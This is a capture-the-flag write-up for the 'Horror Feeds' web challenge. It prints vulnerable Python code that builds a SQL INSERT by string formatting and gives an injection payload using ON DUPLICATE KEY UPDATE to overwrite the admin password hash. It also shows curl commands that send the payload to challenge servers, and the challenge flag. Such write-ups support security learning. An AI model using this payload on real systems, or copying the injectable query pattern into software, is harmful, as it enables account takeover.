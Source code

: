 # Horror Feeds

## The Problem

Rating: Easy

Flavor Text:
```
An unknown entity has taken over every screen worldwide and is broadcasting this haunted feed that introduces paranormal activity to random internet-accessible CCTV devices. Could you take down this streaming service?



```

Attachments : [web_horror_feeds.zip](web_horror_feeds.zip)



## Solution

<img src="./app.png" width="300">

The source code does a lot of work around the JWToken and uses it wel to secure the access to admin. The goal looks to be to read the admin page as it has the flag.

Login attempt to admin:admin fails 
If you try to register as admin, an error about the hash
so there is an admin, and they want us to pay attention to the hash :)


You can register additional users and those accounts allow login to the wonky dashboard that breaks firefox. this shows the token generated on login:

```
curl 'http://178.62.79.95:31154/dashboard'  -H 'Cookie: session=eyJhdXRoIjoiZXlKaGJHY2lPaUpJVXpJMU5pSXNJblI1Y0NJNklrcFhWQ0o5LmV5SjFjMlZ5Ym1GdFpTSTZJbUZrYldsdUxpSXNJbVY0Y0NJNk1UWTJOalkwTmpVMU1YMC5aSmt3RjB0RXhmNTVxb3czTFo5MnlkS2NUeEJOU1dEYzVwejdUb3hTRmkwIn0.Y1attw.JiIZxOljZBZxa5HXo1Lk_nirlk4'
```


I spent considerable time working on the token trying to see if it was validated correctly and if it fell to the none algorithm signature bypass or if there was a way to crack the secret. and no its not an option.


The post event writeups noted the SQLi focused on overwrite of the admin user like:
There's a keyword in SQL to overwrite stuff with (https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#insert-statement---on-duplicate-key-update)
```
Inject using payload:
  attacker_dummy@example.com", "bcrypt_hash_of_qwerty"), ("admin@example.com", "bcrypt_hash_of_qwerty") ON DUPLICATE KEY UPDATE password="bcrypt_hash_of_qwerty" --

The query would look like this:
INSERT INTO users (email, password) VALUES ("attacker_dummy@example.com", "bcrypt_hash_of_qwerty"), ("admin@example.com", "bcrypt_hash_of_qwerty") ON DUPLICATE KEY UPDATE password="bcrypt_hash_of_qwerty" -- ", "bcrypt_hash_of_your_password_input");

This query will insert a row for the user “attacker_dummy@example.com”. It will also insert a row for the user “admin@example.com”.
Because this row already exists, the ON DUPLICATE KEY UPDATE keyword tells MySQL to update the `password` column of the already existing row to "bcrypt_hash_of_qwerty".

After this, we can simply authenticate with “admin@example.com” and the password “qwerty”!

```

```
admin", "USE_CODE_TO_MAKE_NEW_PWD_HASH") ON DUPLICATE KEY UPDATE password="USE_CODE_TO_MAKE_NEW_PWD_HASH" -- -
```

application/util.py
```
def generate_password_hash(password):
    salt = bcrypt.gensalt()
    return bcrypt.hashpw(password.encode(), salt).decode()
```


and applicaiton/database.py:
```
def register(username, password):
    exists = query_db('SELECT * FROM users WHERE username = %s', (username,))
   
    if exists:
        return False
    
    hashed = generate_password_hash(password)

    query_db(f'INSERT INTO users (username, password) VALUES ("{username}", "{hashed}")')
    mysql.connection.commit()

    return True
```

ill use some of this to recreate a hash
![](./bcrypt.png)

making admin=
```
$2b$12$RSLVI/OHNpr7hJ85wx1sKOPEuRe5iaxukqEGLCU747Yz0W8ZLiJbS
```


so:
```
curl 'http://161.35.172.25:32133/api/register' -H 'Content-Type: application/json' --data-raw '{"username":"admin","password":"admin"}' 
```
becomes:
```
curl 'http://161.35.172.25:32133/api/register' -H 'Content-Type: application/json' --data-raw '{"username":"admin\", \"$2b$12$RSLVI/OHNpr7hJ85wx1sKOPEuRe5iaxukqEGLCU747Yz0W8ZLiJbS\") ON DUPLICATE KEY UPDATE password=\"$2b$12$RSLVI/OHNpr7hJ85wx1sKOPEuRe5iaxukqEGLCU747Yz0W8ZLiJbS\" -- -","password":"admin"}' 
```

![](./attack.png)

and lets log it in

![](./flag.png)

## Flag
```
HTB{N3ST3D_QU3R1E5_AR3_5CARY!!!}	
```

## Final Notes
